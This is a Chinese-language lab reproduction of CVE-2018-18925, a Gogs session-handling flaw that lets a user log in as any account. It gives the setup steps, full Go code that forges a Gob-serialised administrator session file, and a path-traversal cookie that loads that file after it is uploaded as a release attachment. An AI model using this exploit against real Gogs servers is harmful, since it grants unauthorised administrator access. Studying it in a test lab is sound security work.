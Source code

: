 （CVE-2018-18925）Gogs 任意用户登录漏洞
=======================================

一、漏洞简介
------------

gogs是一款极易搭建的自助Git服务平台，具有易安装、跨平台、轻量级等特点，使用者众多。

其0.11.66及以前版本中，（go-macaron/session库）没有对sessionid进行校验，攻击者利用恶意sessionid即可读取任意文件，通过控制文件内容来控制session内容，进而登录任意账户。

二、漏洞影响
------------

Gogs \< 0.11.66

三、复现过程
------------

执行如下命令启动gogs：

    docker-compose up -d

环境启动后，访问`http://your-ip:3000`，即可看到安装页面。安装时选择sqlite数据库，并开启注册功能。

安装完成后，需要重启服务：`docker-compose restart`，否则session是存储在内存中的。

漏洞利用
--------

使用Gob序列化生成session文件：

    package main

    import (
        "bytes"
        "encoding/gob"
        "encoding/hex"
        "fmt"
        "io/ioutil"
        "os"
    )

    func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
        for _, v := range obj {
            gob.Register(v)
        }
        buf := bytes.NewBuffer(nil)
        err := gob.NewEncoder(buf).Encode(obj)
        return buf.Bytes(), err
    }

    func main() {
        var uid int64 = 1
        obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
        data, err := EncodeGob(obj)
        if err != nil {
            fmt.Println(err)
        }
        err = ioutil.WriteFile("data", data, os.O_CREATE|os.O_WRONLY)
        if err != nil {
            fmt.Println(err)
        }
        edata := hex.EncodeToString(data)
        fmt.Println(edata)
    }

然后注册一个普通用户账户，创建项目，并在"版本发布"页面上传刚生成的session文件：

![1.png](./resource/(CVE-2018-18925)Gogs任意用户登录漏洞/media/rId25.png)

通过这个附件的URL，得知这个文件的文件名：`./attachments/2eb7f1a2-b5ec-482e-a297-15b625d24a10`。

然后，构造Cookie：`i_like_gogits=../attachments/2/e/2eb7f1a2-b5ec-482e-a297-15b625d24a10`，访问即可发现已经成功登录id=1的用户（即管理员）：

![2.png](./resource/(CVE-2018-18925)Gogs任意用户登录漏洞/media/rId26.png)

完整的利用过程与原理，可以阅读参考链接中的文章。

参考链接
--------

> https://vulhub.org/\#/environments/gogs/CVE-2018-18925/
